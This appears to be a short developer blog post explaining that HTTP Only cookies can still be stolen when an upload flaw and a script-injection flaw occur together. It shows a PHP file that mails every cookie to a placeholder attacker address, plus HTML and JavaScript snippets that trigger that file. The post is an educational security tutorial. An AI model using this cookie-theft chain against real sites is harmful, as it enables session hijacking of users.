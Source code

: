 ```yaml
---
layout: post
title: HTTP Only Cookies Aren't Perfectly Secure
tags:
- php
- javascript
- security
---
```

When you're creating cookies on your server side application, it's good security practice to flag the cookie as HTTP Only.  This way, it instructs the browser that it should sandbox this cookie from the client side scripts.  It still will send it between client and server on each subsequent request, but javascript can't access it directly.

With most things, one single mechanism isn't the only way to secure your website.  Security is multi layer in depth strategies.  That's important to understand when you are using HTTP Only cookies.

**Before you continue: please understand that this is a very contrived example. It's meant to demonstrate the possibility. It's not likely, but it's possible.**

It's still possible to steal HTTP Only cookies from your website. It's just not that easy and requires multiple vulnerabilities in your code - not just client side script injection.

### How to Steal HTTP Only Cookie

Let's look at our code that sets our cookie in our PHP server / backend application.

**`index.php`**
```php
<?php
setcookie('my-cookie', 'the value', 0, "", "", false, true);

// more code here
```

The last `true` indicates that we want to have this cookie as HTTP Only.  To verify this, I can open up my dev tools and type `window.cookie` which will return `undefined` in this example.

Next, we need to have a vulnerability that allows users to upload PHP scripts.  You might say "well if they can access PHP, they can already do a bunch of other things anyway!"  That's not true. You might have your user uploads properly secluded from the rest of your application.  Let's create a PHP file that we trick into the user uploads to run as an application.  (For this contrived example, it'll be a plain PHP file. It's possible with other vulnerabilities and misconfigurations to get image files to run as PHP, etc.)

**`/uploads/uuid-here/hacker.php`**
```php
<?php
mail('hacker@gmail.com', 'An HTTP only cookie', var_export($_COOKIE, true));
```

Since this is on the same server, it will be served with the HTTP only cookie by the browser.

The last step is to inject a request to this application the same way you'd do some client side script injection.

If you can inject HTML, you might try this:

```html
<img src="/uploads/uuid-here/hacker.php">
```

If you are unable to do that, you can still use Javascript with `fetch()` or, if you're a fan of the image, you can do this:

```javascript
var i = new Image();
i.src="/uploads/uuid-here/hacker.php";
```

### End Notes

Again, like I said, it's not easy. It would require two vulnerabilities or misconfigurations. However, it _is_ possible to steal an HTTP Only cookie.